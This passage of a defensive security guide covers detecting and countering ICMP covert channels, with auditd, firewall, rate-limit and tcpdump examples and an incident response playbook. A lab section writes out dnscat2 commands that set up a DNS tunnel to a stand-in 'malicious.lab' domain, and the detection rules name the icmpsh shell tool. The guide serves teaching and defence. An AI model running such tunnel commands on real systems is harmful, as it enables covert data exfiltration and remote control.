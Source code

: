 #### **B. Host-Based Detection**  
- **Unusual Processes**:  
  - Detect `icmpsh.exe` or custom listeners via EDR tools (e.g., CrowdStrike).  
- **Raw Socket Usage**:  
  - ICMP tunnels often require raw socket access. Audit with `auditd` (Linux):  
    ```bash  
    auditctl -a always,exit -F arch=b64 -S socket -F a0=3 -k raw_socket  
    ```  

---

### **Defensive Countermeasures**  
1. **Block Unnecessary ICMP**:  
   - Allow only `ICMP Echo Reply` outbound (not Echo Request).  
   - Example Windows Firewall rule:  
     ```powershell  
     New-NetFirewallRule -DisplayName "Block ICMP Outbound" -Protocol ICMPv4 -IcmpType 8 -Direction Outbound -Action Block  
     ```  
2. **Payload Inspection**:  
   - Deploy a next-gen firewall (e.g., Palo Alto) to inspect ICMP payloads.  
3. **Rate Limiting**:  
   - Limit ICMP packets per second on network devices:  
     ```cisco  
     access-list 101 permit icmp any any echo-reply  
     rate-limit input access-group 101 512000 8000 8000 conform-action transmit exceed-action drop  
     ```  

---

### **Incident Response Playbook**  
**Scenario**: ICMP covert channel detected via oversized payloads.  
1. **Contain**:  
   - Block the attacker’s IP at the firewall.  
2. **Investigate**:  
   - Capture traffic with `tcpdump`:  
     ```bash  
     tcpdump -i eth0 'icmp[icmptype] == 8' -w icmp.pcap  
     ```  
   - Extract payloads with `Wireshark` (Follow UDP Stream > Hex Dump).  
3. **Eradicate**:  
   - Terminate the ICMP listener process (e.g., `kill -9 $(pidof icmpsh)`).  

---

## **3. Lab Exercises**  
### **DNS Tunneling Lab**:  
1. **Simulate Tunneling**:  
   - On Attacker:  
     ```bash  
     dnscat2-server --dns="domain=malicious.lab"  
     ```  
   - On Victim:  
     ```bash  
     dnscat2 malicious.lab  
     ```  
2. **Detect with Zeek**:  
   - Analyze `dns.log` for long queries and TXT records.  
